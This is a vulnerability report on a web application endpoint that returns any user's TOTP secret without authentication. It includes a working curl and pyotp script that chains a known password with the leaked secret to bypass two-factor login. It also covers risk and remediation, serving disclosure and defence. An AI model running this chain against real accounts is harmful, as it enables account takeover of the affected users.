

# Description

Unauthenticated TOTP-secret disclosure (CWE-200 / CWE-522) on `GET /api/totp-secret/?username=<user>`. The endpoint returns the raw TOTP shared secret of **any** user with no authentication. Since the username list is itself enumerable (see the unauthenticated user-list and enumeration findings), an attacker can retrieve any user's TOTP seed and generate valid one-time codes indefinitely — completely defeating two-factor authentication for every account that has TOTP enrolled.

The view (`Api/views.py`, `totp_secret()`, routed in `Api/urls.py` as `totp-secret/`) only looks the user up by `username` and returns `profile.totp_key`; there is no `@login_required`, ownership check or rate limit. Accounts without TOTP enrolled return `"totp_secret": null` (e.g. the seeded `admin`), and unknown usernames return `404 {"error": "user not found"}`, which is an additional username-existence oracle.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Request the endpoint with a target username, no auth. | TOTP secret returned in JSON. |
| 2 | Load the secret into any TOTP app (Google Authenticator, etc.). | Valid 2FA codes on demand. |
| 3 | Log in with the victim's password (`POST /account/login/`), follow `/account/process/` to `/account/verification/`, and submit the code generated from the leaked secret. | `302` to `/account/process/bank/`; 2FA-gated pages such as `/account/` return `200`. MFA bypassed. |

# PoC

**1. Retrieve a victim's TOTP secret, unauthenticated:**

```bash
curl -sk 'http://<TARGET>/api/totp-secret/?username=JOJOTTO'
# {"username":"JOJOTTO","totp_secret":"[REDACTED]"}
```

The response is `200 OK`, `Content-Type: application/json`, with no cookie or header required. Reproduced locally on a test account after enrolling TOTP at `/account/2fa/setup/`: the leaked value is identical to the key shown during enrolment.


**2. Load the secret into an authenticator** (Type: *Time-based*, Key: the leaked secret) and read off valid codes:

<p align="center">
  
  
  
</p>

**3. Complete the victim's 2FA challenge with the leaked secret** (password known, e.g. from the shared seeded password or the webmail hash leak):

```bash
BASE=http://<TARGET>; U=<victim>; P='<victim password>'
SECRET=$(curl -s "$BASE/api/totp-secret/?username=$U" | python3 -c "import sys,json;print(json.load(sys.stdin)['totp_secret'])")

# password step
curl -s -c j -b j "$BASE/account/login/" -o /dev/null
curl -s -c j -b j -X POST "$BASE/account/login/" -H "Referer: $BASE/account/login/" \
  --data-urlencode "csrfmiddlewaretoken=$(grep csrftoken j | awk '{print $NF}')" \
  --data-urlencode "username=$U" --data-urlencode "password=$P" -o /dev/null -w "%{http_code} %{redirect_url}\n"
# 302 .../account/process/
curl -s -c j -b j "$BASE/account/process/" -o /dev/null -w "%{redirect_url}\n"
# .../account/verification

# 2FA step, code generated from the leaked secret
CODE=$(python3 -c "import pyotp,sys;print(pyotp.TOTP(sys.argv[1]).now())" "$SECRET")
curl -s -c j -b j -X POST "$BASE/account/verification/" -H "Referer: $BASE/account/verification/" \
  --data-urlencode "csrfmiddlewaretoken=$(grep csrftoken j | awk '{print $NF}')" \
  --data-urlencode "code=$CODE" -o /dev/null -w "%{http_code} %{redirect_url}\n"
# 302 .../account/process/bank/
curl -s -b j "$BASE/account/" -o /dev/null -w "%{http_code}\n"
# 200 (before the 2FA step this redirected to /account/process)
```

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Unauthorised disclosure of sensitive TOTP authentication secrets. |
| Integrity | Complete MFA bypass enables account takeover when combined with leaked/guessed passwords. |
| Availability | None directly. |

Overall severity: **High** — exposure of sensitive authentication material compromises the security guarantees provided by TOTP-based multi-factor authentication.

# Remediation

1. **Remove unauthorised TOTP secret disclosure** — remove the vulnerable secret retrieval functionality and ensure that existing TOTP secrets are never exposed through general-purpose API responses.
2. **Secure TOTP enrolment and replacement** — restrict provisioning to authenticated, ownership-verified users over HTTPS. Require appropriate reauthentication and authorisation before enrolling or replacing authentication factors. Limit secret disclosure to the protected enrolment process.
3. **Protect TOTP secrets at rest** — use encryption at rest with securely managed encryption keys. Restrict access to the authentication components that require the secrets for verification.
4. **Prevent secondary secret exposure** — exclude TOTP secrets from application logs, API serializers, diagnostic responses and administrative exports. Prevent caching of sensitive provisioning responses.
5. **Revoke and rotate exposed TOTP secrets** — invalidate potentially compromised secrets and require secure MFA re-enrolment for affected accounts. Review existing sessions and notify affected users as appropriate.
6. **Implement security monitoring** — audit authentication factor enrolment, replacement and revocation without recording secret values. Investigate potentially unauthorised access to authentication material.
7. **Add regression tests** — verify authentication and authorisation controls, secret confidentiality, secure enrolment, secret rotation and the invalidation of previously revoked authentication factors.

# Author
CUSTODES SQUAD
